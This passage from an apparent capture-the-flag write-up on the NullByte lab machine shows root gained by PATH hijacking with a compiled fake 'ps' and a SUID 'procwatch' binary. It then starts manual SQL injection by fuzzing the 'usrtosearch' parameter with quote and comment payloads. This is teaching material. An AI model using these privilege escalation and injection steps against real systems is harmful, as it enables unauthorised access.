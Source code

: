We'll compile it:

``
ramses@NullByte:/var/www/backup$ gcc ps.c -o ps
``

And add our pwd to our path:

``
ramses@NullByte:/var/www/backup$ export PATH=/var/www/backup:$PATH
``

Now let's see:

{% highlight shell %}
ramses@NullByte:/var/www/backup$ ./procwatch 
root@NullByte:/var/www/backup# whoami
root


root@NullByte:/root# cat proof.txt 
adf11c7a9e6523e630aaf3b9b7acb51d

It seems that you have pwned the box, congrats.
{% endhighlight %}

Great, job done. Or, perhaps not quite.

## SQLi
This obviously wasn't done for the OSCP but they don't let you use SQLMap I don't think, so let's go back and do the SQLi manually.

### Fuzzing

To start the process we can fuzz the *usrtosearch* parameter with Burp Intruder:

>GET /kzMb5nVYJw/420search.php?usrtosearch=§admin§ HTTP/1.1

I used the following list from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection):

{% raw %}
'  
%27  
"  
%22  
#  
%23  
;  
%3B  
)  
{% endraw %}

{% raw %}"{% endraw %} gives this message:
>Could not get data: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '%"' at line 1
